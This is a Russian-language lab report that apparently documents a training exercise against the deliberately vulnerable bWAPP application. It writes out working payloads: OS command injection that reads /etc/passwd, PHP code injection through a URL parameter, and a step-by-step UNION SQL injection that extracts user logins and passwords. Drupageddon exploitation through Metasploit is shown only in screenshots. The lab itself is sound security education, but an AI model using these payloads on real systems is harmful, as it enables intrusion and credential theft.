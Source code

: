 1. Развернуть уязвимое веб-приложение bWAPP

![bWAPP](images/FdEXqULNgq.png)

*Скриншот показывает интерфейс VMware после успешного развертывания bWAPP.*

![bWAPP](images/chrome_Q8zpKmjg5O.png)

*Скриншот демонстрирует главную страницу bWAPP с доступными заданиями.*

2. Развернуть виртуальную машину с Kali Linux

![Kali Linux](images/tuJZfeTZU0.png)

*Скриншот показывает рабочий стол Kali Linux после успешного запуска виртуальной машины.*

3. Провести несколько простых кибератак: выполнить задания (уровень low) на OS Command Injection

	3.1 функционал приложения

	![OS Command Injection](images/chrome_0TJoXZdFSl.png)

	*Скриншот демонстрирует форму ввода для выполнения команды в уязвимом приложении.*

	3.2 эксплуатация уязвимости

	`nsa.gov&&cat /etc/passwd`

	![OS Command Injection](images/c1ADXYrIBU.png)

	*Скриншот показывает ввод команды, выводящий содержимое файла /etc/passwd.*

	![OS Command Injection](images/chrome_XMgv8cXpWJ.png)

	*Скриншот демонстрирует успешное выполнение команды, выводящий содержимое файла /etc/passwd*

4. PHP Code Injection

	4.1 функционал приложения

	`http://vuln-4.edtechlab.local/phpi.php?message=felixsta`

	![PHP Code Injection](images/chrome_zuijh0ye2S.png)

	*Скриншот показывает страницу с параметром message и значением `felixsta`, переданным в URL.*

	4.2 эксплуатация уязвимости

	`http://vuln-4.edtechlab.local/phpi.php?message=phpinfo()`

	![PHP Code Injection](images/chrome_WRXY25JBMx.png)

	*Скриншот демонстрирует результат выполнения команды phpinfo(), выводящий информацию о PHP.*

5. SQL-Injection (GET/Search)

	5.1 функционал приложения

	`term`

	![SQL Injection](images/chrome_AblVvH7zy5.png)

	*Скриншот показывает форму поиска, где можно ввести поисковый запрос. И результат выполнения запроса по слову `term`*

	5.2 обнаружение уязвимости

	`'`

	![SQL Injection](images/chrome_wRPil3EGHA.png)

	*Скриншот демонстрирует ошибку SQL, возникающую при вводе одиночной кавычки.*

	5.3 определение структуры запроса для вывода необходимой информации

	`1' UNION SELECT null,null,null,null,null-- `

	![SQL Injection](images/chrome_NzaBaarM0C.png)

	*Скриншот показывает результат выполнения UNION запроса с пятью null значениями.*

	`1' UNION SELECT null,null,null,null,null,null,null-- `

	![SQL Injection](images/chrome_bhyiPkk6ln.png)

	*Скриншот демонстрирует успешное выполнение UNION запроса с семью null значениями.*

	5.4 поиск таблицы с данными пользователя

	`1' UNION SELECT 1,table_name,3,4,5,6,7 FROM information_schema.tables -- `

	![SQL Injection](images/chrome_MDxLhtrCss.png)

	*Скриншот показывает результат запроса, выводящий имена таблиц из базы данных.*

	5.5 определение наименования столбцов таблицы имени пользователя и пароля

	`1' UNION SELECT 1,column_name,3,4,5,6,7 FROM information_schema.columns WHERE table_name = 'users' -- `

	![SQL Injection](images/chrome_v9jpkDqqFf.png)

	*Скриншот демонстрирует результат запроса, выводящий имена столбцов таблицы users.*

	5.6 вывод необходимой информации

	`1' UNION SELECT 1,login,admin,secret,password,6,7 FROM users -- `

	![SQL Injection](images/chrome_GIZ2jvuh9r.png)

	*Скриншот показывает результат запроса, выводящий логины и пароли пользователей.*

6. Drupal SQL-Injection (Drupageddon)

	6.1 функционал приложения

	![Drupal SQL Injection](images/chrome_ullRNEoNe6.png)

	*Скриншот демонстрирует интерфейс уязвимого Drupal сайта.*

	6.2 эксплуатация уязвимости

	![Drupal SQL Injection](images/Termius_MaGQAKuMdE.png)

	*Скриншот показывает поиск и настройку exploit для эксплуатации уязвимости через Metasploit.*

	![Drupal SQL Injection](images/Termius_LfWj8vZpyD.png)

	*Скриншот демонстрирует успешное выполнение exploit и получение доступа.*

	![Drupal SQL Injection](images/Termius_Ko5KSedVab.png)

	*Скриншот показывает дальнейшие шаги по эксплуатации уязвимости.*

	![Drupal SQL Injection](images/Termius_Asz4bl6Uy4.png)

	*Скриншот демонстрирует выполнение дополнительных команд для получения данных.*

	![Drupal SQL Injection](images/Termius_VNxWMdB090.png)

	*Скриншот показывает финальный результат эксплуатации уязвимости.*
